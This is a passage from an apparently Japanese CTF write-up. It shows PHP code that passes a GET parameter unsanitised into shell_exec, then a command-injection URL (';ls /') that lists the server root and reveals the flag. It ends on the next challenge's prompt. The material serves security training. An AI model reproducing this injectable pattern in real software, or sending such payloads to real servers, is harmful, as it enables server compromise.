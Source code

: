 ```php
      <?php if (isset($_GET['season'])): ?>
      <?php
          $fruits = array_filter(explode("\n", shell_exec("ls {$_GET['season']}")), "strlen");
          foreach ($fruits as $fruit):
        ?>
      <li><?php echo urlencode(trim($fruit)); ?></li>
      <?php endforeach; ?>
      <?php endif; ?>
    </ul>
  </div>
</body>

</html>
```

`shell_exec("ls {$_GET['season']}")` で OS コマンドインジェクションができそうです。`?season=1;%20ls%20/` にアクセスすると以下のようなレスポンスが返ってきました。

```html
︙
    <ul id="fruitsList">
                  <li>WebC%7BY0u_c4n_choo5e_frui7s_with_y0ur_f4vorite_season%21_b5d3a864%7D</li>
            <li>bin</li>
            <li>dev</li>
            <li>etc</li>
            <li>home</li>
            <li>lib</li>
            <li>media</li>
            <li>mnt</li>
            <li>opt</li>
            <li>proc</li>
            <li>root</li>
            <li>run</li>
            <li>sbin</li>
            <li>srv</li>
            <li>sys</li>
            <li>tmp</li>
            <li>usr</li>
            <li>var</li>
                </ul>
︙
```

フラグが得られました。

```
WebC{Y0u_c4n_choo5e_frui7s_with_y0ur_f4vorite_season!_b5d3a864}
```

## [Web 400] Single Page HTML Viewer 2
> HTMLファイルの中身を見ることができるシングルページアプリケーションを改良しました！  
> 今度は外部サーバのページも表示できますよ！  
> 当然脆弱性はありません！当たり前です！
> 
> (URL)
